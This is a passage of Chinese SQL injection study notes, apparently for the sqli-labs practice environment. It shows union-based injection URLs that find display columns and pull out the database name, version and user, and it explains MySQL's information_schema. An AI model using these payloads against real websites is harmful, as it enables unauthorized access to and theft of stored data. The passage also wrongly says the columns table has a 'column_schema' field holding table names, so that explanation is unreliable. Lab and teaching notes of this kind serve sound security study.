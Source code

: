 ### 8.1 爆显示位置

### 8.1.1 数字型

在 hackbar 提交

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=0 union select 1,2
```

> 查询字段必须相同

### 8.1.2 字符型

已知字段数量为 3 ，在 hackbar 提交

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

> 字符型的错误要注意加闭合符 `'1' union select 1,2,3`

### 8.2 爆库

在有回显的位置显示当前数据库名

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,database() --+
```

也可以通过这种方式得到数据库的其它信息

| 操作                 | 描述         |
| -------------------- | ------------ |
| version()            | mysql 版本   |
| user()               | 数据库用户名 |
| database()           | 数据库名     |
| @@datadir            | 数据库路径   |
| @@version_compile_os | 系统版本     |

### 8.3 爆表

> 在 mysql 中有一个元数据库 `information_schema` 其中有
>
> `tables` 数据表，存储了所有数据库和数据表的关系
>
> > 其中 `table_schema` 字段存储了所有数据库名
> >
> > 还有 `table_name` 字段存储了所有数据库对应的表名
>
>  `columns`  数据表，存储了所有的数据表和字段的关系
>
> > 其中 `column_schema`  字段存储了所有数据表名
> >
> > 还有 `column_name` 字段存储了所有数据表对应的字段名
